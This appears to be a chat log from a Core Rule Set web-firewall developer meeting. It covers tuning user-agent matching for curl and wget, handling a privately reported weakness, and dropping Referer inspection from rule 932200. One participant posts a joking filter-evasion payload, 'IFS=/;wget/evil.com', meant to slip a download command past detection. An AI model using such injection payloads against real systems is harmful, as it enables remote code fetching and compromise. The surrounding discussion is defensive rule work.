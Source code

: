 <span style="font-size: 90%;">I doubt that there's a "standard" that we could try to follow for this _@azurIt_</span>

**azurIt** <span style="color: grey; font-size: 90%;">18:52:56 UTC</span>

<span style="font-size: 90%;">Don't know how curl UA looks like but with wget, it should be enough to make it case-sensitive.</span>

**maxleske** <span style="color: grey; font-size: 90%;">18:53:00 UTC</span>

<span style="font-size: 90%;">Or is it just name/version?</span>

**dune73** <span style="color: grey; font-size: 90%;">18:53:56 UTC</span>

<span style="font-size: 90%;">It's name/version in both cases, but that would take a chained rule and I do not think it's worth it.</span>

**maxleske** <span style="color: grey; font-size: 90%;">18:54:10 UTC</span>

<span style="font-size: 90%;">I volunteer to try and fix this. I broke it :slightly_smiling_face:</span>

**theMiddle** <span style="color: grey; font-size: 90%;">18:54:19 UTC</span>

<span style="font-size: 90%;">IFS=/;wget/evil.com :joy:</span>

**dune73** <span style="color: grey; font-size: 90%;">18:54:36 UTC</span>

<span style="font-size: 90%;">Thank you _@maxleske_</span>

**dune73** <span style="color: grey; font-size: 90%;">18:54:39 UTC</span>

<span style="font-size: 90%;">Next one.</span>

**dune73** <span style="color: grey; font-size: 90%;">18:54:49 UTC</span>

<span style="font-size: 90%;">C9K-230327</span>

**dune73** <span style="color: grey; font-size: 90%;">18:55:12 UTC</span>

<span style="font-size: 90%;">-> [https://github.com/coreruleset/security-tracker-private/issues/7](https://github.com/coreruleset/security-tracker-private/issues/7)</span>

**dune73** <span style="color: grey; font-size: 90%;">18:56:38 UTC</span>

<span style="font-size: 90%;">I think we agree to write back to the reporter hat we will sort this out on our end (via a new new rule to detect this).
(Please do not talk about the details of the weakness here. Just tell us if you agree or if you have new arguments against this resolution.)</span>

**dune73** <span style="color: grey; font-size: 90%;">18:57:59 UTC</span>

<span style="font-size: 90%;">I do not see any disagreement on this question. Thank you.</span>

**dune73** <span style="color: grey; font-size: 90%;">18:58:47 UTC</span>

<span style="font-size: 90%;">Referer headache. Too many FPs with our extension of Referer and UA inspection by additional rules for CRSv4. This time it's 932200.</span>

**dune73** <span style="color: grey; font-size: 90%;">18:59:01 UTC</span>

<span style="font-size: 90%;">The proposal is to remove Referer inspection for this rule.</span>
